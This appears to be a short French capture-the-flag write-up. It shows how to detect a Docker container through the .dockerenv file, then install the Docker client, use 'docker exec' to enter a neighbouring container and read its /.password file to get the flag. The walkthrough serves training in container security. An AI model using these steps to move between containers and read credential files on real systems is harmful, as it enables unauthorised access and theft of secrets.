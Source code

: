 ### Sommes-nous dans un conteneur Docker ?

Pour vérifier si vous êtes dans un conteneur Docker, suivez les étapes suivantes :

1. **Lister le contenu de la racine `/` :**

   ```bash
   ls -a /
   ```

   **Résultat attendu :**
   ```bash
   .     bin   dev  home  lib32  libx32  mnt  proc  run   srv  tmp  var
   ..  .dockerenv  boot  etc  lib   lib64  media   opt  root  sbin  sys  usr
   ```
   La présence du fichier `.dockerenv` indique que vous êtes dans un conteneur Docker.

2. **Mettre à jour les paquets et installer Docker :**

   Tout d'abord, mettez à jour les paquets disponibles :

   ```bash
   apt-get update
   ```

   Ensuite, installez Docker :

   ```bash
   apt-get install -y docker.io
   ```

3. **Lister les conteneurs Docker en cours d'exécution :**

   Vérifiez les conteneurs Docker actifs :

   ```bash
   docker ps
   ```

4. **Entrer dans un conteneur Docker en mode interactif :**

   Pour entrer dans un conteneur en cours d'exécution, utilisez la commande suivante :

   ```bash
   sudo docker exec -it my-ssh-container /bin/bash
   ```

   Cela vous permettra d'accéder au conteneur `my-ssh-container` en mode interactif.

5. **Trouver le flag dans le conteneur voisin :**

   Une fois à l'intérieur du conteneur voisin, il suffit de lire le fichier `/.password` pour récupérer le flag :

   ```bash
   cat /.password
   ```

   Cette commande affichera le contenu du fichier, qui contient le flag.

